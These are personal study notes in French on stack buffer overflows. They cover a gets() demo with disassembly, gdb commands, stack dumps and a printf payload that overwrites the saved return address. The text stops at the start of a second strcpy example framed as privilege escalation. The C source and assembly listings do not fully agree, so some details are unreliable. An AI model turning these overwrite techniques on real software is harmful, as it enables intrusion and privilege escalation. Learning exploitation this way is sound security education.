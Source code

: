 https://insecure.org/stf/smashstack.html
**Rappel**
![[Pasted image 20240218103950.png]]
[[Global/Programming/C C++/Syntaxe#^450a14|Fonction gets()]]


#### **Théorie**

- Étant donné que la fonction gets ne vérifie pas la taille de l'input ni la taille du buffer à laquelle elle fait référence, on va pouvoir faire un stack overflow qui consiste à remplacer l'adresse de retour de la fonction dans laquelle elle est appelée par l'adresse qu'on veut.

#### **Pratique**

##### **Exploit 1 / Démonstration**

- **Code source :**
```C
#include <stdio.h>
void return_input();
int main(){
	return_input();
	return 0;
}
void return_input(void){
	char array[30];
	gets(array);
	printf("%s\n", array);
}
```

```nasm
Code asm de la fonction main
   0x0000555555555149 <+0>:     push   rbp
   0x000055555555514a <+1>:     mov    rbp,rsp
   0x000055555555514d <+4>:     mov    eax,0x0
   0x0000555555555152 <+9>:     call   0x55555555515e <return_input>
   0x0000555555555157 <+14>:    mov    eax,0x0
   0x000055555555515c <+19>:    pop    rbp
   0x000055555555515d <+20>:    ret
```

``` nasm
   Code asm de la fonction return_input
   0x000055555555515e <+0>:     push   rbp
   0x000055555555515f <+1>:     mov    rbp,rsp
   0x0000555555555162 <+4>:     sub    rsp,0x20
   0x0000555555555166 <+8>:     lea    rax,[rbp-0x20]
   0x000055555555516a <+12>:    mov    rsi,rax
   0x000055555555516d <+15>:    lea    rax,[rip+0xe90]        # 0x555555556004
   0x0000555555555174 <+22>:    mov    rdi,rax
   0x0000555555555177 <+25>:    mov    eax,0x0
   0x000055555555517c <+30>:    call   0x555555555040 <__isoc99_scanf@plt>
   0x0000555555555181 <+35>:    lea    rax,[rbp-0x20]
   0x0000555555555185 <+39>:    mov    rdi,rax
   0x0000555555555188 <+42>:    call   0x555555555030 <puts@plt>
   0x000055555555518d <+47>:    nop
   0x000055555555518e <+48>:    leave
   0x000055555555518f <+49>:    ret
```

- **Analyse du code source :**
	- Là on voit que array est un buffer de 30 [[Global/Programming/C C++/Syntaxe#^34615d|char]] et qu'on a une influence sur cette variable grâce à gets().

- **Exploitation**
	- Dans gdb, on va mettre un breakpoint au moment de l'appel de la fonction gets() (ligne 10 du code asm de la fonction return_input) et au moment de l'instruction ret (ligne 16) de return_input afin d'analyser la mémoire avant et après notre input :
		- `b *0x000055555555517c`
		- `b *0x000055555555518f`
	- Au premier breakpoint, on check la mémoire autour de [[Opcode-Register#^0ac733|RSP]] pour voir où se trouve l'adresse de retour. Normalement, l'adresse qu'on cherche correspond à l'adresse juste après (dans notre cas) l'appel de la fonction où on se trouve. Pour nous ça devrais être l'adresse 0x0000555555555157 à la ligne 6 du code asm de main.
		- `x/20x $rsp`
```nasm
Mémoire de la stack
0x7fffffffda60: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffda70: 0x00000000      0x00000000      0xf7fe6780      0x00007fff
0x7fffffffda80: 0xffffda90      0x00007fff      0x55555157      0x00005555 <- ici
0x7fffffffda90: 0x00000001      0x00000000      0xf7def6ca      0x00007fff
0x7fffffffdaa0: 0xffffdb90      0x00007fff      0x55555149      0x00005555
```
- 
	- Ensuite, on continue le programme et on entre une input de plus de 30 char. Ensuite, quand tu touche le 2ème breakpoint, tu réinspectes comment la mémoire autour de RSP a bougé.
		- `continue`
		- `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`
		- `x/20x 0x7fffffffda60`
```nasm
Mémoire de la stack
0x7fffffffda60: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda70: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda80: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda90: 0x41414141      0x00004141      0xf7def6ca      0x00007fff
0x7fffffffdaa0: 0xffffdb90      0x00007fff      0x55555149      0x00005555
```
- 
	- L'adresse de retour a bien été changée. On va maintenant recommencer et essayer de caler l'adresse de l'appel de la fonction return_input (0x0000555555555152) dans main à la place de l'adresse de retour de la stack. On va se servir de la fonction printf dans le shell pour envoyer l'input dans le programme :
		- `printf "AAAAAAAAAAAAAAAAAAAAAAAAAA\x52\x51\x55\x55\x55\x55\x00\x00" | ./programme`
		- On aurait aussi pu le faire comme ça : `./victim $(printf “foo”)`
	- Si tu as bien géré le placement de l'adresse de retour, tu devrais recevoir 2 fois l'output.

- **Conclusion**
	- On peut donc aller à n'importe quel endroit du script si on a une influence sur une adresse de retour. On pourrait très bien, dans un programme de connexion, aller directement à l'adresse de l'instruction qui s'occupe de nous connecter au programme. 


##### **Exploit 2 / Privilege Escalation**

- **Code source**
```C
int main(int argc,char *argv[]){
	char little_array[512];
	if (argc > 1)
		strcpy(little_array, argv[1]);
}
```
```nasm
Code asm de la fonction main
   0x0000555555555139 <+0>:     push   rbp
   0x000055555555513a <+1>:     mov    rbp,rsp
   0x000055555555513d <+4>:     sub    rsp,0x210
   0x0000555555555144 <+11>:    mov    DWORD PTR [rbp-0x204],edi
   0x000055555555514a <+17>:    mov    QWORD PTR [rbp-0x210],rsi
   0x0000555555555151 <+24>:    cmp    DWORD PTR [rbp-0x204],0x1
   0x0000555555555158 <+31>:    jle    0x55555555517a <main+65>
   0x000055555555515a <+33>:    mov    rax,QWORD PTR [rbp-0x210]
   0x0000555555555161 <+40>:    add    rax,0x8
   0x0000555555555165 <+44>:    mov    rdx,QWORD PTR [rax]
   0x0000555555555168 <+47>:    lea    rax,[rbp-0x200]
   0x000055555555516f <+54>:    mov    rsi,rdx
   0x0000555555555172 <+57>:    mov    rdi,rax
   0x0000555555555175 <+60>:    call   0x555555555030 <strcpy@plt>
   0x000055555555517a <+65>:    mov    eax,0x0
   0x000055555555517f <+70>:    leave
   0x0000555555555180 <+71>:    ret
```

- **Analyse du code source**
	- On voit dans le code C que notre arguments est passé dans un buffer avec une taille limitée grâce à la fonction strcpy qui ne fait pas gaffe à la mémoire.

- **Exploitation**
	- 